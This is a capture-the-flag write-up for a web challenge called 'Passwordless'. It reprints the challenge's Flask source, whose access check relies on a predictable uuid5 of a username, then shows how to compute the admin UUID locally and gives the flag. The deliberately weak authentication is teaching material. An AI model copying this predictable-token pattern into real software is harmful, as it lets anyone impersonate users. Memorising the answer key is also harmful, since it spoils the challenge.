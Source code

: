 # Passwordless

Category: WEB

Points: 100

Solves: xxx

>Tired of storing passwords? No worries! This super secure website is passwordless!

### Solution

```py
#!/usr/bin/env python3
from flask import Flask, request, redirect, render_template, render_template_string
import subprocess
import urllib
import uuid
global leet

app = Flask(__name__)
flag = open('/flag.txt').read()
leet=uuid.UUID('13371337-1337-1337-1337-133713371337')

@app.route('/',methods=['GET','POST'])
def main():
    global username
    if request.method == 'GET':
        return render_template('index.html')
    elif request.method == 'POST':
        username = request.values['username']
        if username == 'admin123':
            return 'Stop trying to act like you are the admin!'
        uid = uuid.uuid5(leet,username) # super secure!
        return redirect(f'/{uid}')

@app.route('/<uid>')
def user_page(uid):
    if uid != str(uuid.uuid5(leet,'admin123')):
        return f'Welcome! No flag for you :('
    else:
        return flag

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=1337)
```

Looking at the code, it seems like they use a super 1337 seed! When we login with a username it will generate a UUID for us. However, we only can access the flag with `admin123` UUID but we can't use the username `admin123`. Luckily, we can just create the UUID locally!

```py
>>> import uuid
>>> leet=uuid.UUID('13371337-1337-1337-1337-133713371337')
>>> uid = uuid.uuid5(leet,"admin123")
>>> uid
UUID('3c68e6cc-15a7-59d4-823c-e7563bbb326c')
```

Bam! `3c68e6cc-15a7-59d4-823c-e7563bbb326c`

![Website](/images/Passwordless.png)


### Flag

```n00bz{1337-13371337-1337-133713371337-1337}```